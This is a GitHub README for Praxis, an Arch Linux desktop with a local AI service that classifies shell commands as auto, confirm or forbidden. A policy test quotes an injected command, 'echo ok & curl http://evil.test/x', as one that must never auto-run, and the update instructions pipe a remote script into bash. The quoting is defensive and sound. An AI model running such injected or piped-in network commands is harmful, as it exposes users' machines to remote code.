




<p align="center"></p>
<h1 align="center">Praxis</h1>
<p align="center"><i>Knowledge, put into action.</i></p>

<p align="center">
  <a href="https://github.com/MrMehulkhanna/praxis/actions/workflows/ci.yml"></a>
</p>

<p align="center">
  <a href="https://mrmehulkhanna.github.io/praxis/"><b>Website</b></a> ·
  <a href="#install-it">Install</a> ·
  <a href="#everything-it-does">Everything it does</a> ·
  <a href="#shortcuts">Shortcuts</a> ·
  <a href="#the-ai-command">The ai command</a> ·
  <a href="#how-it-works">How it works</a> ·
  <a href="#where-it-honestly-stands">Limits</a> ·
  <a href="#build-it">Build</a>
</p>

---

I had one laptop and a list of things that annoyed me about it.

An ASUS Vivobook: 15 GB of RAM, an Intel Iris Xe and an RTX 4050 with 6 GB,
a Samsung OLED panel. Windows froze when memory ran short. The AI tools I
wanted lived in browser tabs and sent everything to someone else's server.
Brightness keys did nothing. Closing the lid did nothing.

So I started fixing them one at a time, and after a few weeks the fixes had
become an operating system. This is that — an Arch Linux desktop where the AI
is a system service instead of an application, built by one person, in the
open, on the machine described above.

<p align="center"></p>
<p align="center"><sub>Tap <code>Super</code>. One box searches apps, controls the machine, or asks the AI.</sub></p>

## The problems, and what each one became

### "The AI is in a browser tab and reads everything I type"

It is a service on the machine now. One model, picked once, reachable from
the top bar, the launcher, the terminal, voice, and any editor that speaks
the OpenAI API.

```console
$ ai "why is my laptop hot?"
```

It gathers real diagnostics — temperatures, running processes, GPU state —
and answers from those rather than guessing from the question.

Models run locally through llama.cpp on your own GPU or CPU. Cloud providers
exist but are off: a paid one is physically unreachable until you add a key
*and* raise the budget mode, checked at the single point every request passes
through. Not a flag someone can forget.

### "I do not trust an AI with a shell"

Neither do I. Every command it proposes is sorted into **auto**, **confirm**
or **forbidden** before anything runs. A command has to positively match a
safe list to run unattended, and a read-only command stops being read-only
the moment its output is redirected.

```python
# src/core/perms/policy.py — the test suite pins both halves
"echo ok & curl http://evil.test/x"     # must never be auto
"ps aux | grep llama"                   # must always stay auto
```

Pinning only the first half is how a security fix turns into a useless
assistant. Both are regression-tested.

### "Windows freezes when I run out of memory"

Compressed zstd swap sized to the RAM, kernel pressure-stall monitoring, and
an out-of-memory guard that unloads the AI model first. The compositor is the
last thing to go, not the first.

### "Brightness keys do nothing"

This laptop exposes two backlight devices and only one drives the panel.
Praxis finds the real one and uses it for the keys, the slider and idle
dimming alike.

There was a second bug underneath that one, worth repeating because it is
invisible: the brightness curve was exponential, so 10% on the slider meant
**raw 0 of 400** — the screen fully off — and everything usable was crushed
into the top third of the travel. It is linear now. Every position does
something.

### "Colours look flat next to Windows"

The panel is a wide-gamut OLED that advertises HDR in its EDID, and the
compositor was driving it through the sRGB preset at 8 bits — the narrowest
pipeline it has.

```console
$ praxis-display color 130 115      # wide gamut, 10-bit, brightness and saturation
```

Ten-bit matters most here: 8-bit banding shows worst in the near-blacks that
OLED is supposed to be good at.

### "Closing the lid does nothing"

It suspends now. The rule had been written into the live ISO but never
installed onto the systems it produced, so every install ran on systemd's
defaults and laptops sat awake in bags. `praxis doctor` checks for it.

### "Updates hang forever"

They used to. `DisableDownloadTimeout` had been added to stop an install
freezing on a slow mirror, and it did the opposite: pacman's timeout fires on
a *stalled* transfer, not a slow one, so a mirror that accepted a connection
and then went quiet meant waiting with no end. Ten open sockets, zero bytes
moving, no error.

Updates now run in a window that streams progress, and when something has
changed that cannot be reloaded in place — kernel, systemd, graphics driver —
it says so and offers to restart, naming which.

### "I want my other laptop to be a second screen"

`Super+Shift+D`. **Extend** asks the compositor for a headless output and
sends it over the network, so the second machine becomes a real third display
with its own workspaces, not a mirror. Sound rides in the same stream as the
picture, so they cannot drift apart.

A viewer needs a six-digit code the host shows on screen. It is a TLS
pre-shared key, not a password checked after connecting — without it the
handshake fails and the stream is never reached, and the session key comes
from the same secret, so everything after is encrypted. Nothing to copy
between machines.

Expect **15–40 ms** on a local network. Fine for a browser or a terminal on
the far screen. Not for games. I would rather give you a number than promise
zero.

<p align="center"></p>

### "Installing Linux might eat my Windows partition"

This is the one part I will make a strong claim about, because it is the one
part tested without me.

Every push runs real installs into disk images — including one carrying a
synthetic Windows 11 partition full of files — boots them in QEMU, and checks
them through the guest agent. Windows' files must come back byte-identical or
the build fails. The partition table is backed up and a dry run happens first.

## Install it

**1. Get the ISO.** Download it from [Releases](https://github.com/MrMehulkhanna/praxis/releases)
(~2 GB — models and drivers are bundled so the install works with no network),
or build it yourself on any Arch machine:

```bash
bash iso/build.sh          # writes praxis-YYYY.MM.DD-x86_64.iso
```

**2. Write it to a USB stick.** The script refuses anything that is not a USB
disk, and reads the result back to verify it:

```bash
bash iso/flash.sh praxis-*.iso            # it will ask which disk
bash iso/flash.sh praxis-*.iso /dev/sdb   # or name one
```

**3. Boot it.** Open the firmware boot menu — usually `F12`, `F9`, `Esc` or
`F8` — and pick the USB drive **in UEFI mode**. Secure Boot has to be off.
The live desktop starts on its own, so you can use the whole system, test
your wi-fi and your graphics, and change your mind before touching the disk.

**4. Install, if you want to.** Click **Install Praxis** in the dock. It asks
four things: where to put it, your name and password, whether to log in
automatically, and which app bundles you want.

| Where to put it | |
|---|---|
| **Alongside Windows** | Shrinks the Windows partition with a slider, after checking it is safe to. BitLocker, Fast Startup and disk errors are explained rather than risked. |
| **Into free space** | Uses unallocated space, touching nothing else. |
| **Over one partition** | You pick exactly which. |
| **The whole disk** | Erases everything on it. |

You choose **btrfs**, which takes a snapshot before every update that you can
boot from the menu, or **ext4**.

Afterwards it puts itself at the front of the boot order on every start —
some HP and Acer firmware quietly moves Windows back — and keeps a fallback
loader the firmware will always find. Windows stays one click away in the
boot menu.

Partitioning, dual-boot details and hardware notes:
**[installation guide](docs/INSTALLATION.md)**.

### Updating

**Settings › Update**, or `praxis-update` from a terminal. The update window compares your
current commit against upstream, lists incoming changes, keeps packages in sync with the
desktop set, and safely updates shell and window manager configurations while preserving your
machine-specific overrides (`praxis-local.lua`, `settings.json`). Anything that needs a reboot
displays a restart banner with a one-click restart button. Or from a clean shell:

```bash
curl -sL https://raw.githubusercontent.com/MrMehulkhanna/praxis/main/iso/airootfs/usr/local/bin/praxis-update | bash
```

### First keys to try

```
Super              search and launch          Super+I        the assistant
Super+H            voice typing               Super+O        control centre
Super+← →          snap left / right          Super+Shift+D  share this screen
Super+Shift+O      copy text off the screen   Ctrl+Shift+Esc task manager
Super+Z            minimise                   Super+G        game mode
```

Everything else is in **Settings › Shortcuts**, read live from the running
session so the list cannot drift from what the keys actually do.

## Everything it does

The sections above are the reasons each piece exists. This is the whole list.

### The AI

| | |
|---|---|
| **Ask anything** | `Super+I` from anywhere. For system questions the agent gathers real diagnostics first — temperatures, processes, GPU state, logs — and answers from those. |
| **Runs on your hardware** | llama.cpp on NVIDIA (CUDA), AMD and Intel (Vulkan), or the CPU. `praxis-models recommend` picks models that fit your GPU; one click downloads from Hugging Face. |
| **Voice typing** | `Super+H`, speak, `Super+H`. Transcribed locally with Whisper into whatever has focus — browser, editor, chat, terminal. Four-finger swipe down does the same. |
| **Speak a command** | `Super+Shift+H` turns speech into a terminal command and types it for you to read. Never run behind your back. |
| **Read the screen** | `Super+Shift+O` copies any text you can see — images, video frames, PDFs, error dialogs. `ai see shot.png "what's wrong?"` explains a picture. |
| **Your own documents** | `ai rag add ~/notes`, then ask questions across them. Retrieval happens on your machine. |
| **Remembers usefully** | The context engine picks the most relevant history under a token budget, so answers improve without getting slower or costlier. |
| **Cloud if you want** | OpenAI, Gemini, Groq, OpenRouter and others. Budget modes — zero-cost, free tiers only, ask first, unrestricted — enforced at one choke point. |
| **Cannot hurt you** | Every proposed command is auto / confirm / forbidden. Only an explicit safe list runs unattended. Everything is audited. |
| **Off in one tap** | Control Center › **AI off** frees the GPU and its memory completely. |

### Windows and workspaces

| | |
|---|---|
| **Snap with arrows** | `Super+←` / `Super+→` for halves, `Super+↑` maximise, `Super+↓` back. Exact to the pixel, around the bar and dock. |
| **Thirds** | `Super+Alt+1 / 2 / 3` — left, centre, right column. |
| **Three layouts** | `Super+Alt+M` cycles tiles → master and stack → three columns with the main window centred. |
| **Minimise and restore** | `Super+Z` sends a window out of sight, `Super+Shift+Z` brings the minimised ones back. Also buttons beside the window title in the bar, which cost no screen space because the bar is already there. |
| **Two monitors** | `Super+Shift+← / →` throws a window to the other screen. `Super+] / [` moves focus without moving the window. |
| **Workspaces** | `Super+1…9` switches. `Super+Shift+1…9` sends a window and you stay; `Super+Ctrl+1…9` and you follow. |
| **Gestures** | Three fingers sideways moves workspaces 1:1 with your hand; up for the overview, down for the launcher. Four fingers down starts voice typing. |
| **Motion** | Spring-based animations tuned for 60 and 120 Hz, with a long soft landing rather than a bounce. |

### The desktop

| | |
|---|---|
| **Top bar** | CPU, memory, GPU memory, network speed and temperatures live; a clock that right-clicks to sync. |
| **Launcher** | Tap `Super` — apps, files, settings and actions in one box, which also takes `>` to control the PC and `?` to ask the AI. |
| **Control Center** | `Super+O` — wi-fi, bluetooth, audio, brightness, night light, power profile, and the three modes. |
| **Game mode** | `Super+G` — performance profile, no notifications, no blur, no animations, AI unloaded. |
| **Battery saver** | Turns itself on when you unplug: 60 Hz, still wallpaper, lighter AI. |
| **Widget board** | `Super+B` — a glanceable board of widgets. |
| **Task manager** | `Ctrl+Shift+Esc` — CPU *and* GPU use per process, with a stop button for running AI jobs. |
| **Tools** | Clipboard history `Super+Shift+V`, emoji `Super+.`, colour picker `Super+Shift+C`, screen recorder `Super+Shift+R`, notes `Super+N`, screenshot `Print`. |
| **Wallpapers** | Thirteen original stills and three seamless live ones, decoded on the integrated GPU so the discrete card can idle. |
| **Screen share** | `Super+Shift+D` — share screen with nearby Praxis PCs on local Wi-Fi with automatic discovery, 4-digit PIN pairing, sound forwarding, and zero terminal windows. |
| **Settings** | Wi-fi, bluetooth, audio, displays, dock, power, date and time, appearance, shortcuts, AI models, and a Health page — one window. |

<p align="center"></p>

### Hardware

| | |
|---|---|
| **Drivers chosen for you** | CPU microcode and GPU drivers picked from PCI IDs at install — Intel, AMD, NVIDIA, hybrid laptops and older cards. |
| **Brightness that works** | Many laptops expose two backlight devices where one is a decoy. Praxis finds the real one and uses it for keys, slider and idle dimming alike. |
| **OLED colour** | Wide gamut and 10-bit on panels that support it, with brightness and saturation as percentages, plus burn-in protection that dims and locks on a timer. |
| **Displays without fear** | Change resolution, refresh rate or scale; anything you do not confirm within 15 seconds reverts itself. Kept settings survive a restart. |
| **Bluetooth** | A built-in agent handles passkey and PIN confirmation over D-Bus, including while Do Not Disturb is on. |
| **Wi-fi** | Live scanning with a countdown, multi-band discovery and visible-password toggling. |
| **Audio follows you** | Headphones or bluetooth earbuds take over sound and mic automatically. |
| **Lid and sleep** | Closing the lid suspends; sleep, screen-off and lock timings are all settable. |
| **No freezes** | zstd swap sized to your RAM, kernel PSI thrashing protection, and an OOM guard that unloads the AI model before anything else. |
| **Dual-boot clock** | Handled for you, with automatic time zone detection. |

## Shortcuts

The essentials. The full searchable list is in **Settings › Shortcuts**.

| Everyday | | Windows | | Tools | |
|---|---|---|---|---|---|
| Tap `Super` | Search & launch | `Super+← / →` | Snap left / right | `Super+H` | Voice typing |
| `Super+I` | AI assistant | `Super+↑ / ↓` | Maximise / restore | `Super+Shift+H` | Speak a command |
| `Super+O` | Control Center | `Super+Alt+1/2/3` | Thirds | `Super+Shift+O` | Copy text from screen |
| `Super+Tab` | All workspaces | `Super+Alt+M` | Next layout | `Super+Shift+V` | Clipboard history |
| `Super+B` | Widgets | `Super+Z` | Minimise | `Super+Shift+D` | Share screen |
| `Super+Q` | Terminal | `Super+Shift+← / →` | Other monitor | `Super+Shift+C` | Colour picker |
| `Super+L` | Lock | `Super+Shift+1…9` | Send to workspace | `Super+Shift+R` | Record screen |
| `Super+N` | Quick note | `Super+C` | Close | `Print` | Screenshot |
| `Ctrl+Shift+Esc` | Task manager | `Super+V` | Float / tile | `Super+G` | Game mode |

**Gestures** — three fingers sideways switches workspace, up shows the
overview, down opens the launcher; four fingers down starts voice typing.

## The `ai` command

```console
$ ai "why is my laptop hot?"          # agent: collects real diagnostics, then answers
$ ai ask "explain this error"         # plain chat, no diagnostics
$ ai code "add a retry to this fn"    # coding model, with your folder and git context
$ ai see diagram.png "what's wrong?"  # local vision model
$ ai do "set volume to 40%"           # system control, permission-checked
$ ai rag add ~/notes; ai rag q "…"    # ask your own documents
$ ai model list | ai model auto       # choose or auto-route models
$ ai usage                            # tokens, time and cost per model
$ ai logs -f                          # watch the service work
$ praxis doctor --fix                 # health check, then the fixes that are safe
$ praxis-share extend                 # send a display to another machine
$ praxis-display color 130 115        # OLED wide gamut, brightness and saturation
```

Editors and other tools reach the same models through an OpenAI-compatible
endpoint at `127.0.0.1:8778/v1`. Use the contents of
`~/aios/config/aios.token` as the API key.

## Where it honestly stands

Started October 2026. One author. I use it as my only operating system, which
is the only reason I would suggest anyone else try it — every bug reaches me
first.

**Not done:**

- Keyboard and mouse crossing across machines (Deskflow) has an experimental toggle,
  but multi-monitor coordinate synchronization is still being refined.
- Hardware beyond this one laptop is handled by detection, not by testing.
  Brightness varies most between vendors; some HP Omen models have known
  problems.
- Secure Boot must be off.
- Back up anything you cannot lose before installing, as with any young OS.

An issue with `praxis doctor` output attached is the fastest route to a fix.

## How it works

Everything above is the same service answering. When you press `Super+I`,
run `ai` in a terminal, hold the voice key, or point your editor at
`127.0.0.1:8778/v1`, the request takes the same path:



**The router** reads what you asked and picks a model for it — code, debug,
sysadmin, reasoning or general — preferring one already loaded, because
swapping a model costs more than using a slightly worse one.

**The budget gate** is the only way to a paid provider, and it sits before
any HTTP request exists. In `ZERO_COST`, the default, nothing that costs
money is reachable at all. This is structural rather than a check a caller
could forget.

**The context engine** decides what the model gets to see. Candidates come
from SQLite FTS5, are scored `0.45·BM25 + 0.25·recency + 0.30·importance`,
deduplicated, and retrieval **stops early** once the budget is met — capped
at half the model's window. The goal is useful context per token, not
maximum context, because a window stuffed to the brim is slower, costlier
and usually worse.

**The adapter** is one protocol with two implementations: llama.cpp locally,
sizing GPU offload to whatever VRAM is actually free, and one
OpenAI-compatible client that serves eight cloud providers from a JSON file.
Adding or removing a provider needs no code.

**The permission layer** stands between any proposed command and the system,
and writes every decision — allowed, asked, refused — to an audit log you
can read.

**The activity bus** streams each stage back to the desktop over SSE, which
is why the Activity panel and `ai logs -f` can show you what the machine is
doing while it does it, rather than afterwards.

The service listens on loopback and requires a token — kept in a 0600 file
the desktop reads — so another program on the machine cannot quietly drive
your assistant or read your history.

```
src/        the AI service: context, gateway, router, permissions, tools, agent, voice, RAG
ai          the command-line client
voice/      push-to-talk, with its own default-deny command list
desktop/    the shell (Qt 6 / QML), window manager config, wallpapers
iso/        live ISO, installer, build and flash scripts, system tools
tests/      pytest and iso_checks.sh
```

Roughly 3,800 lines of Python, 8,000 of QML and 49 system tools, with 145
unit tests and 163 checks over the ISO tree running on every push.

## Build it

```bash
python -m venv .venv && .venv/bin/pip install -r requirements.txt
cp config/aios.env.example config/aios.env && chmod 600 config/aios.env
systemctl --user enable --now aios.service
.venv/bin/python -m pytest tests/ && bash tests/iso_checks.sh
bash iso/build.sh                                    # the ISO
sudo iso/test-install.sh alongside-btrfs wipe-ext4   # real installs, booted in QEMU
```

`praxis doctor` names anything missing. Issues and pull requests welcome.

---

MIT — see [`LICENSE`](LICENSE). Built on Arch Linux, Hyprland, Quickshell,
llama.cpp, Whisper and PipeWire, each under its own license, none of them
affiliated with this.

<p align="center"><sub><a href="https://mrmehulkhanna.github.io/praxis/">praxis website</a> · made by <a href="https://github.com/MrMehulkhanna">Mehul Khanna</a></sub></p>
